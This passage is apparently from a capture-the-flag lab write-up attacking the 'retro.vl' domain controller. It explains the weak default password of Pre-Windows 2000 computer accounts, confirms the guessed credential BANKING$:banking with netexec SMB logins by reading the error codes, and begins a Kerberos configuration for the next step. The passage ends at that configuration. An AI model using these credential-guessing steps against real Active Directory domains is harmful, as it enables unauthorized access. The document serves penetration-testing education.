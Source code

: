 
# Phase 6: Pre-Windows 2000 Computer Account Exploitation

The note about the "pre-created computer account" suggests this system uses legacy `Pre-Windows 2000` compatibility mode for computer accounts. In this configuration, computer account passwords are set to the lowercase computer name without the trailing `$`. We can confirm this by using `BloodHound`.

![Screenshot 2025-08-23 152535.png](attachment:c635f1c9-8493-458d-b406-f07145f1aae0:Screenshot_2025-08-23_152535.png)

### Understanding Pre-Windows 2000 Computer Accounts

When a computer account is configured as `Pre-Windows 2000 Computer`, its password is set based on its name (lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated. This represents a significant security vulnerability.

### Testing Legacy Computer Account Credentials

```
netexec smb 10.10.83.167 -u BANKING$ -p banking

SMB         10.10.83.167    445    DC         [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.83.167    445    DC         [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT

netexec smb 10.10.83.167 -u BANKING$ -p randompass
SMB         10.10.83.167    445    DC         [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.83.167    445    DC         [-] retro.vl\BANKING$:randompass STATUS_LOGON_FAILURE
```

The different error messages (`STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` vs `STATUS_LOGON_FAILURE`) indicate that the password `banking` is correct, but the account has login restrictions. However, we can still use these credentials for Kerberos authentication.

### Kerberos Configuration

```
sudo nano /etc/krb5.conf

[libdefaults]
        default_realm = RETRO.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        RETRO.VL = {
                kdc = DC.RETRO.VL
                admin_server = DC.RETRO.VL
        }
```

